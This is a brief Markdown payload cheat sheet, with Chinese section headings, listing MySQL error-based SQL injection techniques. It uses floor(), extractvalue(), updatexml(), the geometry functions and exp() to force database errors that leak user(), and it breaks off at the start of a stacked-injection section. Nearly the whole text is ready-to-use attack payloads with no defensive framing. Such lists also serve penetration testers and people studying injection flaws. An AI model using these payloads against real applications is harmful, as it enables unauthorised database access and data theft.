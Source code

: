 #### 报错注入

```mysql
\\floor()

select * from test where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);

\\extractvalue()

select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));

\\updatexml()

select * from test where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));

\\geometrycollection()

select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b));

\\multipoint()

select * from test where id=1 and multipoint((select * from(select * from(select user())a)b));

\\polygon()

select * from test where id=1 and polygon((select * from(select * from(select user())a)b));

\\multipolygon()

select * from test where id=1 and multipolygon((select * from(select * from(select user())a)b));

\\linestring()

select * from test where id=1 and linestring((select * from(select * from(select user())a)b));

\\multilinestring()

select * from test where id=1 and multilinestring((select * from(select * from(select user())a)b));

\exp()

select * from test where id=1 and exp(~(select * from(select user())a));

```



#### 堆叠注入

`;select 1
